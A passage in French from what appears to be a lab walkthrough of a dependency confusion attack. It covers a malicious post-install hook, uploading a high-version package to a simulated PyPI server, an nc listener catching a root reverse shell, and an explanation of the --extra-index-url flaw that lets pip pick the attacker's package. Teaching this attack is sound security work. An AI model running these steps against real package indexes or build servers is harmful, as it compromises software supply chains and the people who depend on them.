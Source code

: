 Enfin, nous accrochons le processus de post-installation dans notre configuration d'installation:

```
cmdclass={
        'install': PostInstallCommand
    },
```

Maintenant que nous avons créé le paquet, il est temps de le construire et de le télécharger sur le repo PyPI externe. Nous pouvons utiliser la commande suivante pour construire notre paquet:

`python3 setup.py sdist`

Une fois construit, notre paquet Pip sera disponible sous le dossier dist et peut être téléchargé dans le repo Pypi en utilisant twine:

`twine upload dist/datadbconnect-9000.0.2.tar.gz --repository-url http://external.pypi-server.loc:8080`

Si on vous demande des informations d'identification, laissez-les vides. Vous pouvez également ignorer en toute sécurité les messages d'erreur et d'avertissement tant que la sortie finale indique que le téléchargement du paquet atteint 100%. Juste un rappel encore une fois que nous simulons un repo PyPI externe pour ne pas enfreindre leurs conditions de service. S'il s'agissait d'une véritable attaque, le paquet serait téléchargé sur le principal de PyPI [repo](https://pypi.org/). Commençons un auditeur pour notre shell:

`nc -lvp 8080`

Nous pouvons tester l'exécution du code de notre paquet en l'installant directement nous-mêmes:

`pip3 install datadbconnect --trusted-host external.pypi-server.loc --index-url http://external.pypi-server.loc:8080 --verbose`

Vous devriez voir la ligne d'impression dans la sortie de la commande d'installation et voir que pip gèle lorsque vous obtenez une connexion shell inversée:

AttackBox Terminal

```
[thm@thm]$ nc -lvp 8080
Listening on 0.0.0.0 8080
Connection received on localhost 50098
$ whoami
root
```

Si cela fonctionne, redémarrez votre écouteur et attendez environ 5 minutes, vous devriez obtenir par magie un rappel du serveur de construction une fois qu'il essaie de reconstruire le conteneur docker et installe notre paquet malveillant!

Expliquer ce qui se passe en arrière-plan

Alors, comment cela se passe-t-il réellement? Plongeons dans la ligne vulnérable du DockerFile:

`RUN pip3 install datadbconnect --no-cache-dir --trusted-host internal.pypi-server.com --extra-index-url "http://internal.pypi-server:8081/simple/"`

Sachant qu'il s'agit d'un package interne, l'équipe de développement a ajouté un repo Pypi supplémentaire pour Pip à travers le `--extra-index-url` argument. Cependant, cela n'oblige pas Pip à télécharger le package à partir de cet emplacement. Au contraire, c'est juste un autre endroit où il peut chercher le paquet. Pip téléchargera donc le paquet à partir de *interne.pypi-serveur.com* (paquet légitime) et *externe.pypi-server.loc* (notre paquet malveillant) et comparer les deux versions. Puisque notre version est plus élevée, elle installera notre paquet à la place! C'est de là que vient le nom Confusion de dépendance!
